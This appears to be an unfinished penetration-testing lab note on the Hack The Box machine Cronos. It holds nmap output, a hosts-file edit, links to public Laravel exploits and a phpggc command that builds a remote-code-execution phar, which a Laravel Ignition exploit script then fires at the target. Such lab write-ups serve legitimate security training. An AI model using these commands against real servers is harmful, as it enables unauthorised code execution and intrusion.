 # Summary



## about target

tip:  10.129.119.83

hostname: Cronos

Difficulty: Medium



## about attack

+ web enum with nothing, try to add the hostname to hosts and enum the domain name(dns)
+ login page-- sql injection -- command injection -- cronjob to root.





**attack note**

```bash
Cronos / 10.129.227.211

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)


## http enum

80, apache default page, nothing.

add hosts
echo '10.129.119.83 cronos.htb' | sudo tee -a /etc/hosts

laravel page, nothing on source and page.

dir scan


search exploit  laravel, wrong path.
CVE-2018-15133
https://github.com/kozmic/laravel-poc-CVE-2018-15133

CVE-2021-3129
https://github.com/ambionics/laravel-exploits

php -d 'phar.readonly=0' phpggc --phar phar -o ./exploit.phar --fast-destruct monolog/rce1 system id 

./laravel-ignition-rce.py http://cronos.htb ./exploit.phar


```